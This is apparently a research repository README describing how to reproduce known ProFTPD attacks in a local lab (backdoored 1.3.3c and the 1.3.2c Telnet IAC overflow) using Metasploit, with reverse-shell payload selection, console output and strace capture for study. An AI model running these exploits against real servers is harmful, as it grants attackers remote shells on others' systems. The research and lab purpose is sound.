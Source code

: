 # reproduceAttacks
== Read me file ===
== Ke Tian @ 2016 ==

CSF/DSN reproduce
################## 1 backdoor attack 

LINK: https://www.aldeid.com/wiki/Exploits/proftpd-1.3.3c-backdoor
File: proftpd-1.3.3c

payloads here:
ketian@ketian:/opt/metasploit/apps/pro/vendor/bundle/ruby/2.3.0
./gems/metasploit-framework-4.12.20/modules/payloads/singles/cmd/unix/reverse_perl_ssl.rb

commands: 
ketian@ketian:~/Desktop$ md5sum proftpd-1.3.3c.tar.gz 
4f2c554d6273b8145095837913ba9e5d  proftpd-1.3.3c.tar.gz


### in proftpd-1.3.3c-backdoor folder ###
patch -p1 < /home/ketian/proftpd_133c_vun.patch

## to run the proftpd
## no need to make install, already make 
sudo ./proftpd -c `pwd`/sample-configurations/basic.conf

ketian@ketian:~/Desktop/proftpd-1.3.3c$ netstat -ln | grep 21
tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN     
unix  2      [ ACC ]     STREAM     LISTENING     12151    /run/user/1001/pulse/native


ps aux |grep proftp

## kill the service
killall -9 proftpd

### meta exploit
sudo msfconsole

msf > use exploit/unix/ftp/proftpd_133c_backdoor
msf exploit(proftpd_133c_backdoor) > show payloads

Compatible Payloads
===================

   Name                                Disclosure Date  Rank    Description
   ----                                ---------------  ----    -----------
   cmd/unix/bind_perl                                   normal  Unix Command Shell, Bind TCP (via Perl)
   cmd/unix/bind_perl_ipv6                              normal  Unix Command Shell, Bind TCP (via perl) IPv6
   cmd/unix/generic                                     normal  Unix Command, Generic Command Execution
   cmd/unix/reverse                                     normal  Unix Command Shell, Double Reverse TCP (telnet)
   cmd/unix/reverse_perl                                normal  Unix Command Shell, Reverse TCP (via Perl)
   cmd/unix/reverse_perl_ssl                            normal  Unix Command Shell, Reverse TCP SSL (via perl)
   cmd/unix/reverse_ssl_double_telnet                   normal  Unix Command Shell, Double Reverse TCP SSL (telnet)

msf exploit(proftpd_133c_backdoor) > set PAYLOAD cmd/unix/reverse
PAYLOAD => cmd/unix/reverse

msf exploit(proftpd_133c_backdoor) > set LHOST 127.0.0.1
LHOST => 127.0.0.1

msf exploit(proftpd_133c_backdoor) > set RHOST 127.0.0.1
RHOST => 127.0.0.1

msf exploit(proftpd_133c_backdoor) > set RPORT 21
RPORT => 21

msf exploit(proftpd_133c_backdoor) > exploit 
## you will get a shell here :)!


##for bind_perl_ipv6 IPV6 ###
in configure file, set ipv6 "ON"
in meta exploit:
set RHOST ::1 

##for cmd/unix/generic
set CMD touch /tmp/xxxx.tmp
 
## Do the strace ###
sudo strace -i -f -o xxxx.strace -p `pidof proftpd`

+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++


################## 2 Telnet buffer overflow 


video:
https://www.youtube.com/watch?v=NrUnsC72w3I

exploit website:
https://www.rapid7.com/db/modules/exploit/linux/ftp/proftp_telnet_iac

===
Environment: ProFTPD 1.3.2c Server (Ubuntu 10.04)
set up the virtual box (use oracle VirtualBox)

Image file (uVB.ova) is under the directory (with proftpd 1.3.2c installed)


directly run it.
 
=== Test machine (in VirtualBox) ==========
network setup: NAT  
rule 1: TCP 
Host IP: 127.0.0.1
HOST PORT: 2121
GUest IP: 10.0.2.15
Guest Port : 21

#check version
proftpdf -v

#start service
service Proftpd start

=== Local machine ==============
ketian@ketian:~$ sudo msfconsole
[sudo] password for ketian: 
+ -- --=[ 1573 exploits - 906 auxiliary - 270 post        ]
+ -- --=[ 455 payloads - 39 encoders - 8 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > use exploit/linux/ftp/proftp_telnet_iac 
msf exploit(proftp_telnet_iac) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf exploit(proftp_telnet_iac) > set RPORT 2121
RPORT => 2121
msf exploit(proftp_telnet_iac) > show targets 

Exploit targets:

   Id  Name
   --  ----
   0   Automatic Targeting
   1   Debug
   2   ProFTPD 1.3.3a Server (Debian) - Squeeze Beta1
   3   ProFTPD 1_3_3a Server (Debian) - Squeeze Beta1 (Debug)
   4   ProFTPD 1.3.2c Server (Ubuntu 10.04)


msf exploit(proftp_telnet_iac) > set TARGET 4
TARGET => 4
msf exploit(proftp_telnet_iac) > exploit

[*] Started reverse TCP handler on 127.0.0.1:4444 
[*] 127.0.0.1:2121 - Trying target ProFTPD 1.3.2c Server (Ubuntu 10.04)...
[*] 127.0.0.1:2121 - FTP Banner: 220 ProFTPD 1.3.2c Server (Debian) [::ffff:10.0.2.15]
[*] 127.0.0.1:2121 - !!! Attempting to bruteforce the cookie value! This can takes days. !!!
[*] 127.0.0.1:2121 - 0.00% complete, 0.00 attempts/sec - Trying: 0x0
[*] 127.0.0.1:2121 - 0.00% complete, 22.40 attempts/sec - Trying: 0xe000
...


## Do the strace on the test machine ###
sudo strace -i -f -o xxxx.strace -p `pidof proftpd`

+++++++++++++++++++++++++++++++++++++++++++++++++++++++++


############# 3 ROP attack 
Please see the gzip folder and exploit.py for the constructions


--------------------------------------------------------------------------------------
CCS Reproduce
under construction 

